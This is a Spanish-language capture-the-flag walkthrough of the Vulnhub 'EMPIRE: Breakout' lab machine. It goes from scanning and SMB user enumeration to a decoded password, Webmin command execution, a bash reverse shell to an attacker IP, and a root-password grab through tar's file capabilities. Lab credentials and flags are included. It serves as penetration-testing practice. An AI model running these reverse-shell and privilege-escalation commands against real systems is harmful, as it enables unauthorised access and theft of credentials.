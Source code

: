 Herramientas:
	- arp-scan
	- ping
	- nmap
	- Visor de codigo del navegador
	- https://www.dcode.fr/brainfuck-language
	- enum4linux
	- nc -lvnp 1234
	- bash -i >/dev/tcp/192.168.1.144/1234 0>&1
	- con getcap -r / 2>dev/null
	- ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
Puertos:
	#Puerto80 
	#puerto10000
	#puerto20000


reconocimiento de la red:

![[Vulnhub - EMPIRE Breakout - Reconocimeinto de la red.png]]
Ping a la maquina para ver si hay conectividad y el TTL:
![[Vulnhub - EMPIRE Breakout - Ping y ver TTL.png]]

Conectividad y TTL 64--> maquina LINUX
Nmap:
sudo nmap -p- --open -sS -Pn -sC -sV 192.168.1.136

![[Vulnhub - EMPIRE Breakout - Nmap.png]]

Encontramos los  puertos:
80 con un apache 2.4.51
139 Samba 4.6.2
445 Samba 4.6.2
10000 http webmin miniserv 1.891
20000 http webmin MiniServ 1.830

Accedemos al puerto 80:

![[Vulnhub - EMPIRE Breakout - Web apache 2 por defecto.png]]
web por defecto de Apache 2 en Debian

Vamos a revisar el código fuente:
![[Vulnhub - EMPIRE Breakout - Codigo extraño en el codigo fuente.png]]
nos encontramos con esto:

<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
-->

por lo que entendemos con el mensaje que :
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
es un mensaje encriptado

Decodeamos web para decodear este mensaje (https://www.dcode.fr/brainfuck-language):

![[Vulnhub - EMPIRE Breakout - Decode Message.png]]
y obtenemos:
.2uqPEfj3D<P'a-3

Accedemos al puerto 10000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 10000.png]]
volvemos a acceder ahora con SSL (según mensaje)
y vemos un panel de Login:
![[Vulnhub - EMPIRE Breakout - Panel de Login.png]]

Revisamos el puerto 20000:
![[Vulnhub - EMPIRE Breakout - Acceso al puerto 20000.png]]
Usamos la herramienta Enum4 Linux:
comando:
enum4linux -a 192.168.1.136 y obtengo este resultado:
![[Vulnhub - EMPIRE Breakout - Enumeracion de usuarios con enun4linux.png]]
Ha obtenido el usuario cyber
vamos a intentar entrar con el usuario cyber y al contraseña obtenida anteriormente en el panel de login:

cyber:.2uqPEfj3D<P'a-3
y accedemos al panel:

![[Vulnhub - EMPIRE Breakout - Panel de mailbox.png]]

hay una opcion en el panel que es para ejecutar comandos:
![[Vulnhub - EMPIRE Breakout - Ejecutamos comandos desde el panel.png]]

de aquí obtenemos la primera flag del usuario:
User flag: 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

ahora podemos lanzar una reverse bash desde aquí y recibirla en nuestro terminal:
nos ponemos a la escucha:
comando 
nc -lvnp 1234
y en la victima ejecutamos:
bash -i >/dev/tcp/192.168.1.144/1234 0>&1

Y obtenemos acceso:
![[Vulnhub - EMPIRE Breakout - Ejecutar reverse shell.png]]

Obtenemos la reverse Shell:
![[Vulnhub - EMPIRE Breakout - Obtencion de reverse Shell.png]]
volvemos a ver la flag del usuario:
![[Vulnhub - EMPIRE Breakout - User Flag from the machine.png]]


nuestro usuario es cyber
![[Vulnhub - EMPIRE Breakout - User cyber.png]]

hacemos un pequeño tratamiento de la TTY con el comando:
script /dev/null -c bash
Vulnhub - EMPIRE Breakout - 
tenemos que escalar privilegios:
sudo -l no funciona
![[Vulnhub - EMPIRE Breakout - Escalado sudo -l.png]]

Vemos las capabilities:
con getcap -r / 2>dev/null
![[Vulnhub - EMPIRE Breakout - Capabilitis del usuario.png]]

Y encontramos  que tenemos acceso a tar

![[Vulnhub - EMPIRE Breakout - Fichero backup old oculto.png]]

Encontramos el ficheor oculto en /var/backups con el nombre .old_pass.bak
usamos tar para leerlo

![[Vulnhub - EMPIRE Breakout - Encontramos fichero backups old.png]]

con el comando ./tar -cf {nombre fichero} /var/backups/.old_pass.bak
extraemos
listamos lo extraido:
![[Vulnhub - EMPIRE Breakout - Fichero backup descomprimido.png]]

y obtenemos lo siguiente:
0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h  

Accedemos con la contraseña de root que hemos obtenido:
sudo root:
root:Ts&4&YurgtRX(=~h  

![[Vulnhub - EMPIRE Breakout - Acceso root.png]]
Root flag:
![[Vulnhub - EMPIRE Breakout - Root flag.png]]
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}




